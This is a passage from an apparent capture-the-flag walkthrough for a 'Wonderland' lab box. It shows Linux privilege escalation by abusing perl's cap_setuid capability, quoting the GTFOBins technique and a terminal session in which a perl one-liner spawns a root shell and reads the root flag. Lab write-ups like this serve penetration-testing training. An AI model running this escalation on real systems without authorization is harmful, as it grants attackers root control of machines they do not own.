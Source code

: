 <<SNIP>>

e [+] Files with POSIX capabilities set:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
-e 

https://gtfobins.github.io/gtfobins/perl/
Capabilities
It can manipulate its process UID and can be used on Linux as a backdoor to maintain elevated privileges with the CAP_SETUID capability set. This also works when executed by another binary with the capability set.

cp $(which perl) .
sudo setcap cap_setuid+ep perl

./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'


hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
# cat /home/alice/root.txt
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
# 



https://vulp3cula.gitbook.io/hackers-grimoire/post-exploitation/privesc-linux
https://blog.pentesteracademy.com/privilege-escalation-by-abusing-sys-ptrace-linux-capability-f6e6ad2a59cc
https://book.hacktricks.xyz/linux-unix/privilege-escalation
